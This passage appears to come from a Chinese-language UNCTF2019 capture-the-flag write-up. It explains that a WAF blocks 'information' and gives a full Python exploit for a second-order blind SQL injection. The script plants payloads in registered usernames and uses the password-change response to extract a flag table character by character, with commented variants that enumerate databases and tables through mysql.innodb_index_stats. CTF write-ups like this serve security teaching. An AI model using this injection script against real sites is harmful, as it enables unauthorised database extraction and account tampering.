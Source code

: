 

然后盲注有个问题在于information被waf掉了，导致我一直无法注出后续的东西。

参考：[<https://www.smi1e.top/sql%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/>](<https://www.smi1e.top/sql%E6%B3%A8%E5%85%A5%E7%AC%94%E8%AE%B0/>)

![](/home/cookie/Pictures/blogs/UNCTF2019/8.png)

exp如下：

```python
import requests


flag = ""
s = requests.Session()
for space in range(1,100):
    for i in range(48,123):
        #payload = "admin' and ascii(substr((select database()),%d,1))=%d##########################cookie12345678"%(space,i)
        #payload = "admin' and ascii(substr((select group_concat(distinct database_name) from mysql.innodb_index_stats),%d,1))=%d##########################cookie123456780121"%(space,i)
        #payload = "admin' and ascii(substr((select group_concat(distinct table_name) from mysql.innodb_index_stats),%d,1))=%d##########################cookie12345678"%(space,i)
        payload =  "admin' and ascii(substr((select * from fl4g),%d,1))=%d##########################cookie12345678"%(space,i)
        #print payload+"the character "+str(space)+" try --"+chr(i)
        
        url1 = 'http://101.71.29.5:10002/login_create.php'
        register_data = {"username":payload,"password":"123","re_password":"123","submit":"Register"}
        r_register = s.post(url1,data=register_data)

        
        url2 = 'http://101.71.29.5:10002/login.php'
        login_data = {"login_user":payload,"login_password":"123","mysubmit": "Login"}
        r_login = s.post(url2,data=login_data)

        url3 = 'http://101.71.29.5:10002/pass_change.php'
        update_data = {"current_password":"123","password":"12345"+str(i),"re_password":"12345"+str(i),"submit": "Reset"}
        r_update = s.post(url3,data=update_data)
        if "Password successfully updated" in r_update.text:
            flag = flag + chr(i)
            print "flag is ------>"+flag
            break

print flag
```





## 审计一下世界上最好的语言吧
